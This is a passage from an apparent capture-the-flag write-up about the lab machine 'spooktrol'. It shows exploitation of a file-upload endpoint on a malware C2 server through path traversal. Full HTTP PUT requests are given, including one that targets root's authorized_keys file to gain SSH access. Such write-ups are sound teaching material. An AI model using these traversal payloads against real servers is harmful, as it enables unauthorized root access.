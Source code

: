 ### Arbitrary File Upload

#### Repeater

It seems like there’s a new cookie each time, so sending this request to repeater might not work. But it’s worth a try, and it does:

![image-20211021212902740](https://0xdfimages.gitlab.io/img/image-20211021212902740.png)

#### Path Traversal

With it working in repeater, I can try to upload outside the current directory:

```

PUT /file_upload/ HTTP/1.1
Host: spooktrol.htb
User-Agent: curl/7.74.0
Accept: */*
Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
Content-Length: 218
Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
Connection: close
--------------------------184989c6c833691c
Content-Disposition: form-data; name="file"; filename="../../../../../../test.txt"
Content-Type: text/plain

this is some test data
--------------------------184989c6c833691c--

```

It still reports success. And, given that it’s likely writing in the system root at this point, it’s likely that the C2 is running as root.

If I try to write to a folder that doesn’t exist (like `../0xdf-folder`), it returns:

```

{"message":"Internal Server Error"}

```

#### SSH

It seems not uncommon for malware C2 to run as root, so I’ll try overwriting the `authorized_keys` file for root:

```

PUT /file_upload/ HTTP/1.1
Host: spooktrol.htb
User-Agent: curl/7.74.0
Accept: */*
Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
Content-Length: 247
Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
Connection: close
--------------------------184989c6c833691c
Content-Disposition: form-data; name="file"; filename="../../../../../../../root/.ssh/authorized_keys"
Content-Type: text/plain

this is some test data
--------------------------184989c6c833691c--

```
